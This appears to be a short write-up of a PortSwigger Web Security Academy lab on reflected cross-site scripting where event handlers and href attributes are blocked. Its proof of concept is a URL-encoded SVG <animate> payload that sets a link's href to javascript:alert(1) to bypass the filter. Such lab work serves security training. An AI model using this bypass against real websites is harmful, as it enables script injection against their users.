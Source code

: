 # Reflected XSS with event handlers and href attributes blocked

## Description

The website in [this lab](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-event-handlers-and-href-attributes-blocked) contains a reflected XSS vulnerability with some whitelisted tags, but all events and anchor href attributes are blocked.

## Reproduction and proof of concept

1. Visit the following URL, replacing `0aea002d04f460bbc1d2491e00ad00da` with your lab ID:

```text
https://0aea002d04f460bbc1d2491e00ad00da.web-security-academy.net/?search=%3Csvg%3E%3Ca%3E%3Canimate+attributeName%3Dhref+values%3Djavascript%3Aalert(1)+%2F%3E%3Ctext+x%3D20+y%3D20%3EClick%20me%3C%2Ftext%3E%3C%2Fa%3E
```
